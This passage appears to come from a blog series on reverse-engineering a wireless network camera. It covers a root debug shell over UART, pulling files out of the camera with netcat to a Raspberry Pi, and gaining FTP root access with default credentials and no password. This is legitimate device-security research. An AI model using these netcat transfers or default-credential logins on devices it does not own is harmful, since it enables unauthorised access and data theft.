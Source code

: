 Entering *whoami*, a Linux command to get the current user, returned this:

![whoami.jpg](/assets/images/analysing_a_wireless_network_camera_part_1/whoami.png)

Shout out the manufacturers for the easy root shell! It is running a pretty standard Linux build, with a feature-full busybox included for all the commands you could ever want. Lots and lots of binaries in the */usr/bin* which we will try to extract in the next section.

# Getting Binaries

Before we can analyse binaries, we need to get access to them - at the moment all we can do is view them through the debug shell. Here are a couple of possible ways to do this.

## netcat

During the setup procedure, the device sets up a hotspot. Connecting to this hotpot on a Raspberry Pi was simple enough with the default password being '*12345678*'. Once we are connected, we can setup a *netcat* listener on a port, which will sit and wait for incoming information. We can then store the input in a file that will contain the binary.

We use the following command to do this:

```
nc -l -p 1234 > output.bin
```

On the camera debug shell, we have a Busybox version (basically a big combination of basic Linux commands) that contains *netcat* (a.k.a *nc*), so we can simply use this to send the contents of a file to the Raspberry Pi. We just need to find the IP address of the Pi by running *ifconfig* on it and getting the IP that starts with *192.168.10*, in this case, *192.168.10.20*. The following command will send the file to the Pi:

```
nc 192.168.10.20 1234 < /path/to/file
```

Now we have the file on the Pi!

## FTP Server

As this camera has an SD card slot, I was expecting there to be an FTP server running (confirmed later with port scans). Connecting to the cameras FTP server with *FileZilla*, and trying a bunch of default credentials like '*root*' and '*admin*' yielded complete access to the filesystem, binaries and all. The username/password was *root/no password* - very secure. 

I used *FileZilla* to basically extract the entire filesystem so that I have everything on my local machine, and this worked great! Much easier than running *netcat* on every file in the binary.

# Port Enumeration

As we already have access to a root shell through the UART, there isn't really much point in using *nmap* to enumerate the open ports - a *netstat* output is much more valuable.
